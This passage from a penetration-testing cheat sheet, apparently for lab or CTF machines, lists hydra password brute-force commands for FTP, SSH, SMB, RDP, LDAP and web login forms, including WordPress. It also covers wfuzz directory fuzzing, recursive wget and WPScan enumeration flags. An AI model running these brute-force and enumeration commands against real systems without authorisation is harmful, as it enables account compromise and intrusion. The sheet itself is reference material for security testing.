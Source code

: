 ```bash
export user=Admin
export pass=PaSsW0rD!
export ip=10.10.10.10

hydra -l $user -P ./passwords.txt ftp://$ip -vV -f           # FTP brute force
hydra -l $user -P ./passwords.txt $ip -t 4 ssh -vV -f        # SSH brute force
hydra -P ./passwords.txt -v $ip snmp -vV -f                  # SNMP brute force
hydra -l $user -P ./passwords.txt -f $ip pop3 -vV -f         # POP3 Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -vV -f        # SMTP Brute Force
hydra -t 1 -l $user -P ./passwords.txt $ip smb -vV -f 	     # SMB Brute Forcing
hydra -L users.txt -P passwords.txt $ip smb -vV -f           # SMB Brute Forcing
hydra -t 1 -l $user -P ./passwords.txt rdp://$ip -vV -f      # Hydra attack Windows Remote Desktop
hydra -L users.txt -P passwords.txt $ip ldap2 -vV -f	     # LDAP Brute Forcing
hydra -L ./users.txt -P ./passwords.txt $ip http-get /admin  # attack http get 401 login with a dictionary

# Post Web Form
hydra -l $user -P ./passwordlist.txt $ip http-post-form "/:username=^USER^&password=^PASS^:F=incorrect"
hydra -l $user -P ./passwordlist.txt $ip -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

# Get form popup login
hydra -l $user -P ./passwordlist.txt $ip http-get /dir/
```

<div style="page-break-after: always;"></div>

## 9. wfuzz

```bash
wfuzz -c --hc=404,403 --hh=11321 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -w ./extensions.txt http://10.10.10.78/FUZZ
FUZ2Z
```

<div style="page-break-after: always;"></div>

## 10. Wget recursivo

```bash
wget -r http://10.10.10.75/nibbleblog/content/ -np -R "index.html*" # -np (no-parent) -R "string" (remove files with string name... wilcards works)
```

## 11. WPScan - WordPress Security Scanner

```bash
wpscan --url www.website.com              # Non-intrusive scan
	-t 50                                 # Force 50 threads
	--cookie-string COOKIE                # Cookie string to use in requests, format: cookie1=value1[; cookie2=value2]
	--wp-content-dir /DIR                 # Specific correct /path when is not the default
	--wp-plugins-dir /DIR                 # Specific correct /path when is not the default
	--enumerate [OPTIONS]                 # Valid options: vp (Vulnerable plugins),
										  #                ap (All plugins),
										  #                p (Plugins),
										  #                vt (Vulnerable themes),
										  #                at (All themes),
										  #                t (Themes),
										  #                tt (Timthumbs),
										  #                cb (Config backups),
										  #                u (User IDs)
										  # Format: [choice],[choice],[choice],...
```
